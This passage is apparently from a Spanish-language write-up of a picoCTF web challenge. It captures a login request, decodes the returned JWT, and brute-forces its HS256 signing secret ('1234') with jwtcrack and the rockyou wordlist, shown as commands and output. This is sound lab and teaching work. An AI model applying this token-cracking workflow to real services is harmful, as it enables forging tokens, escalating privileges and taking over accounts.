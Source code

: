 ``` java 
@PreAuthorize("hasAuthority('Admin') and #userRoleRequest.id != authentication.principal.grantedAuthorities[0].userId")
```

Lanzo un primer request desde Zap para caputar y ver la respuesta:

``` html
POST http://saturn.picoctf.net:63664/base/login HTTP/1.1
host: saturn.picoctf.net:63664
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:128.0) Gecko/20100101 Firefox/128.0
Accept: application/json, text/plain, */*
Accept-Language: es-ES,es;q=0.8,en-US;q=0.5,en;q=0.3
Content-Type: application/json
Content-Length: 34
Origin: http://saturn.picoctf.net:50421
Connection: keep-alive
Referer: http://saturn.picoctf.net:50421/
Priority: u=1

{"email":"user","password":"user"}
```

Respuesta 

``` html
{"type":"SUCCESS","payload":"eyJ0eXAiOiJKV1QiLCJhbGciOiJIUzI1NiJ9.eyJyb2xlIjoiRnJlZSIsImlzcyI6ImJvb2tzaGVsZiIsImV4cCI6MTc1MzQ4MDA1NiwiaWF0IjoxNzUyODc1MjU2LCJ1c2VySWQiOjEsImVtYWlsIjoidXNlciJ9.8dXmGdjAJjiIt6x2KhlaoYdwiIoLl72BZiApdYL22ZA"}
```

Algo interesante aparece cuando decodificamos este base64:

``` shell
pablo☠office java-code-analisis$ echo "eyJ0eXAiOiJKV1QiLCJhbGciOiJIUzI1NiJ9" | base64 -d
{"typ":"JWT","alg":"HS256"}% 
pablo☠office java-code-analisis$ echo "eyJyb2xlIjoiRnJlZSIsImlzcyI6ImJvb2tzaGVsZiIsImV4cCI6MTc1MzQ4MTk5MSwiaWF0IjoxNzUyODc3MTkxLCJ1c2VySWQiOjEsImVtYWlsIjoidXNlciJ9" | base64 -d
{"role":"Free","iss":"bookshelf","exp":1753481991,"iat":1752877191,"userId":1,"email":"user"}% 
```
Por un lado descubrimos que la web trabaja con Java Web Tokens y que podemos hacer fuerza bruta para conocer la clave de la firma del hash, esta password como ya descubrimos es 1234, para comprobarlo podemos usar **Jwtcrack** ver el repo en [hacktools/#password-cracking](../hacktools/#password-cracking) y un diccionario como rockyou.

```shell 
(jwtcrack) pablo☠office jwtcrack$ ./crackjwt.py eyJ0eXAiOiJKV1QiLCJhbGciOiJIUzI1NiJ9.eyJyb2xlIjoiRnJlZSIsImlzcyI6ImJvb2tzaGVsZiIsImV4cCI6MTc1MzQ4MzM3NiwiaWF0IjoxNzUyODc4NTc2LCJ1c2VySWQiOjEsImVtYWlsIjoidXNlciJ9.KFTGvUzu1HRjg8dSl68YnUvrt6garU4jqY8bFZPWz0k ~/pentest/wordlist/rockyou.txt 
Cracking JWT eyJ0eXAiOiJKV1QiLCJhbGciOiJIUzI1NiJ9.eyJyb2xlIjoiRnJlZSIsImlzcyI6ImJvb2tzaGVsZiIsImV4cCI6MTc1MzQ4MzM3NiwiaWF0IjoxNzUyODc4NTc2LCJ1c2VySWQiOjEsImVtYWlsIjoidXNlciJ9.KFTGvUzu1HRjg8dSl68YnUvrt6garU4jqY8bFZPWz0k
1081081it [00:35, 30313.55it/s]
Found secret key: 1234
```

Pero como solo queremos comprobar la clave que hemos encontrado creamos un diccionario de 1 entrada.
